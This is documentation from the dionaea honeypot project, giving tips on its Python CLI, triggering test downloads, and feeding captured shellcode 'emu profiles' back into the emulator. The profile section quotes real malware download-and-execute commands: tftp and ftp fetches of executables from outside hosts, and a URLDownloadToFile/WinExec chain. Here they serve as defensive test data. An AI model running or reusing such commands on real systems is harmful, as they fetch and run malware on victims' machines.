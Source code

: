 ..
    This file is part of the dionaea honeypot

    SPDX-FileCopyrightText: 2011-2012 Markus Koetter
    SPDX-FileCopyrightText: 2015-2017 PhiBo (DinoTools)

    SPDX-License-Identifier: GPL-2.0-or-later

Tips and Tricks
===============

dionaea embedds a python interpreter, and can offer a python cli
therefore too.
*The python cli is blocking*, if you start entering a command, the whole
process will wait for you to finish it, and not accept any new connections.
You can use the python cli to interact with dionaea, which is very
useful for development and debugging.


Configuration
-------------

You can access the dionaea.conf via python (readonly)::

      from dionaea import g_dionaea
      g_dionaea.config()


Completition and History on the CLI
-----------------------------------

If you use the cli often, you can make it behave like a real shell,
including history and completition.::

      import rlcompleter, readline
      readline.parse_and_bind('tab: complete')

Triggering Downloads
--------------------

Sometimes it helps to trigger a download, without waiting for an attack.
Very useful if you want to verify permissions are correct when switching
the user, or making sure a submission to a 3rd party works correctly.
You can trigger downloads for all major protocols.

ftp
---
.. code::

      from dionaea.ftp import ftp
      f = ftp()
      f.download(None, 'anonymous','guest','ftp.kernel.org',21, 'welcome.msg', 'binary','ftp://ftp.kernel.org/welcome.msg')


tftp
----

.. code::

      from dionaea.tftp import TftpClient
      t = TftpClient()
      t.download(None, 'tftp.example.com', 69, 'filename')

http
----

As the http download is not done in python, we do not use the download
facility directly, but create an incident, which will trigger the download::

      from dionaea.core import incident
      i = incident("dionaea.download.offer")
      i.set("url", "http://www.honeynet.org")
      i.report()

incidents
---------

incidents are the ipc used in dionaea.

dumping
-------

.. code::

      from dionaea.core import ihandler
      class idumper(ihandler):
              def __init__(self, pattern):
                      ihandler.__init__(self, pattern)
              def handle(self, icd):
                      icd.dump()

      a = idumper('*')

emu profile
-----------

Small collection of various shellcode profiles gatherd from dionaea.


CreateProcess Commands
----------------------

This profile will trigger a download via tftp.\

.. code::

      p='[{"call": "CreateProcess", "args": ["", "tftp.exe -i 92.17.46.208 get ssms.exe", "", "", "1", "40", "", "", {"dwXCountChars": "0", "dwFillAttribute": "0", "hStdInput": "0", "dwYCountChars": "0", "cbReserved2": "0", "cb": "0", "dwX": "0", "dwY": "0", "dwXSize": "0", "lpDesktop": "0", "hStdError": "68", "dwFlags": "0", "lpReserved": "0", "lpReserved2": "0", "hStdOutput": "0", "lpTitle": "0", "dwYSize": "0", "wShowWindow": "0"}, {"dwProcessId": "4712", "hProcess": "4711", "dwThreadId": "4714", "hThread": "4712"}], "return": "-1"}, {"call": "CreateProcess", "args": ["", "ssms.exe", "", "", "1", "40", "", "", {"dwXCountChars": "0", "dwFillAttribute": "0", "hStdInput": "0", "dwYCountChars": "0", "cbReserved2": "0", "cb": "0", "dwX": "0", "dwY": "0", "dwXSize": "0", "lpDesktop": "0", "hStdError": "68", "dwFlags": "0", "lpReserved": "0", "lpReserved2": "0", "hStdOutput": "0", "lpTitle": "0", "dwYSize": "0", "wShowWindow": "0"}, {"dwProcessId": "4712", "hProcess": "4711", "dwThreadId": "4714", "hThread": "4712"}], "return": "-1"}, {"call": "ExitThread", "args": ["0"], "return": "0"}]'
      from dionaea.core import incident
      i = incident("dionaea.module.emu.profile")
      i.set("profile", str(p))
      i.report()


URLDownloadToFile
-----------------

This profile will trigger a download.

.. code::

      p='[{"call": "LoadLibraryA", "args": ["urlmon"], "return": "0x7df20000"}, {"call": "URLDownloadToFile", "args": ["", "http://82.165.32.34/compiled.exe", "47.scr", "0", "0"], "return": "0"}, {"call": "WinExec", "args": ["47.scr", "895"], "return": "32"}]'
      from dionaea.core import incident
      i = incident("dionaea.module.emu.profile")
      i.set("profile", str(p))
      i.report()

WinExec Commands
----------------

This profile uses WinExec to create a command file for windows ftp
client, downloads a file, and executes the file.::

      p='[{"call": "WinExec", "args": ["cmd /c echo open welovewarez.com 21 > i&echo user wat l0l1 >> i &echo get SCUM.EXE >> i &echo quit >> i &ftp -n -s:i &SCUM.EXE\\r\\n", "0"], "return": "32"}, {"call": "ExitThread", "args": ["0"], "return": "0"}]'
      from dionaea.core import incident
      i = incident("dionaea.module.emu.profile")
      i.set("profile", str(p))
      i.report()
